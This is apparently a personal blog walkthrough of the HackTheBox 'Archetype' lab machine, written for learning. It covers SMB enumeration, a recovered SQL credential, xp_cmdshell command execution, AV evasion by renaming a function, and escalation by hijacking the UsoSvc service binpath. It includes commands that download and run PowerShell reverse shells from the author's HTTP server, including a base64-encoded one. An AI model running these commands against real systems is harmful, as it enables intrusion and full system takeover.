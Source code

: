 ```yaml
---
weight: 1
title: "HacktheBox - Archetype Writeup"
date: 2021-07-20
draft: false
author: "SH∆FIQ ∆IM∆N"
authorLink: "https://shafiqaiman.com"
images: []
resources:
- name: "featured-image"
  src: "featured.png"

tags: ["reverse-powershell", "legacy", "smb", "smbclient", "crackmapexec-smb", "impacket-mssqlclient", "mssql", "xp_cmdshell", "nishang", "modify-services", "windows-check-OS-architecture"]
categories: ["HacktheBox"]

lightgallery: true
toc:
  auto: false
---
```


## Enumeration

- 1000 ports scan
```bash
nmap -sC -sV -oN nmap/initial 10.10.10.27
```

![initial nmap scan](1.png "initial nmap scan")

- all ports scan

![full nmap scan](2.png "full nmap scan")

### Open ports
- 135 (msrpc)
- 139 (smb 4 sure)
- 445 (smb 4 sure)
- 1433 (ms-sql-s/Microsoft SQL Server)

## SMB Enum

### CrackMapEXEC

![crackmapexec](3.png "crackmapexec")

### smbclient

![smbclient](4.png "smbclient")

wow `backups` shares. Let's try connect to it.

![backup shares](5.png "backup shares")

- download the file using the `get command`

### prod.dtsConfig
- content of the file

```perl
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```
we've got the credentials

- `ARCHETYPE\sql_svc:M3g4c0rp123`

## Foothold/Gaining Access

### mssqlclient.py[Impacket]

- mssqlclient syntax

```bash
mssqlclient.py <UserID>@<IP addr> -windows-auth
```

![mssqlclient](6.png "mssqlclient")

- always do this after login `enable_xp_cmdshell`
- let's try run `whoami`

![xp_cmdshell whoami](7.png "xp_cmdshell whoami")

- Note: I'm using `xp_cmdshell` then `whoami`

### Nishang

{{< admonition tip "Nishang" >}}
[Nishang](https://github.com/samratashok/nishang) is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming.
{{< /admonition >}}

- I'm gonna copy the `Invoke-PowerShellTcp.ps1` into my `www` directory. Then, rename it to `rev.ps1`

![copy PowerShellTcp.ps1](8.png "copy PowerShellTcp.ps1")

- Open the `rev.ps1` file and pick one of the example. Then `copy` and `paste` it on the last line of the code.

{{< admonition tip >}}
Make sure! change the ip and port
{{< /admonition >}}


![PowerShellTcp.ps1 example](9.png "PowerShellTcp.ps1 example") _examples_

![modify PowerShellTcp.ps1](10.png "modify PowerShellTcp.ps1") <br>_put in here and save it_

- Time to upload the script into the machine by using `mssqlclient.py` that we connected.
	-	I'm gonna run `python server` inside `www` directory.
	-	`python3 -m http.server`
	- Then try to uploaded using this command:
		- `xp_cmdshell powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.13:8000/rev.ps1\")`  
	- And this happen

![blocked by AV](11.png "blocked by AV") <br>  _it says this script got blocked by antivirus because of this function_

- So, I change the function into something else. It works.


![execute again](12.png "execute again")

## User flag

![user flag](14.png "user flag")

### WinPEAS

- Upload the winpeas binary into the machine
- I'm gonna use `powershell` to know this machine `architecture`
  - by using this command:
    - `(wmic os get OSArchitecture)[2]`

![check OSArchitecture](13.png "check OSArchitecture")

- This machine is 64-bit. I'm gonna upload `WinPEAS 64-bit version` to work.

- I'm gonna `copy` and `paste` the `WinPEAS` binary into my `www` folder.
- Let's upload it by using this command:
    - `IWR http://10.10.16.13:8000/winPEASx64.exe -OutFile winpeas.exe`

![download WinPEAS](15.png "download WinPEAS")

- Then run it by using this command `.\winpeas.exe`

## Privilege Escalation

### UsoSvc

- `WinPEAS` just found this juicy stuff:

![UsoSVC modify services](16.png "UsoSVC modify services")

### Modify service binary path
- According this [link](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services)
> If the group "Authenticated users" has *<font color="red">SERVICE\_ALL\_ACCESS</font>* in a service, then it can <font color="yellow">modify the binary</font> that is being executed by the service.

---

### Encoded Command
-  Here is the script before Encoded
```powershell
IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)
```
- Time to encoded
```bash
echo "IEX(IWR http://10.10.16.13:8000/zzz.ps1 -UseBasicParsing)" | iconv -t utf-16le | base64 -w 0
```
- First, It's gonna encoded into `utf-16le`
- Second, It's gonna encoded into `base64`
- Sources [IppSec](https://youtu.be/iyYqgseKUPM?t=2299)

---

- So, I'm gonna `copy` another `powershell reverse shell` by name it into `zzz.ps1`
- Then upload it using this command:
```powershell
sc.exe config UsoSvc binpath="cmd.exe /c powershell.exe -EncodedCommand SQBFAFgAKABJAFcAUgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA2AC4AMQAzADoAOAAwADAAMAAvAHoAegB6AC4AcABzADEAIAAtAFUAcwBlAEIAYQBzAGkAYwBQAGEAcgBzAGkAbgBnACkACgA="
```

- After that, run this command `sc.exe start UsoSvc`

![create a service](17.png "create a service")


![catch the shell](18.png "catch the shell") <br> _we've got the reverse shell and become system!_

## Administrator Flag

![administrator flag](19.png "administrator flag")

## Conclusion
I’ve learned a lot of tools today and `how to do a PowerShell reverse shell`. Ngl, this is a really fun box. I feel like my brain want to explode

I have a fun time doing this machine and I hope you guys too. Bye ;)